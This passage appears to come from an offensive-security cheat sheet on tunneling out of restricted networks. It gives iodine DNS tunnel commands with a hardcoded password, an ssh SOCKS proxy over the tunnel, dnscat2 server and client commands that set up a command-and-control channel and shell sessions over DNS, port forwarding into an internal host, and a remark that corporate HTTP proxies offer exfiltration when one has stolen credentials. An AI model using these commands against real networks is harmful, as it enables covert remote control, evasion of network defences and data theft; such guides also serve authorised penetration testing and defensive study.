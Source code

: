 `iodine -f -P P@ssw0rd tunneldomain.com -r`

Successful connection will yield direct client visibility at address 1.1.1.2. Note, that this tunneling technique is quite slow. Your best bet is to use a compressed ssh connection over the resulting connection:

`ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080`

#### Dnscat2

[Dnscat2](https://github.com/iagox86/dnscat2) establishes C&C channel over recursive DNS queries. This tool doesn't require root/administrator access (works both on windows and linux). It also supports port forwarding. Server side:

```
ruby ./dnscat2.rb tunneldomain.com
```

Client side:

`./dnscat2 tunneldomain.com`

After you receive a connection of server side, you can view the active sessions with `windows` command:

```
dnscat2> windows
0 :: main [active]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = tunneldomain.com [*]
  1 :: command session (debian)
  2 :: sh (debian) [*]
```

To initiate port forwarding select a command session with `session -i <num>`:

```
dnscat2> session -i 1
New window created: 1
New window created: 1
history_size (session) => 1000
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command session (debian) 1>
```

Use `listen [lhost:]lport rhost:rport` command to forward a port:

`command session (debian) 1> listen 127.0.0.1:8080 10.0.0.20:80`

This will bind port 8080 on the attacker's machine and forward all connections to 10.0.0.20:80.


### Corporate HTTP proxy as a way out

HTTP proxies organization place for their employees to access external web-application present a good exfiltration opportunity given  you got the right credentials ;)
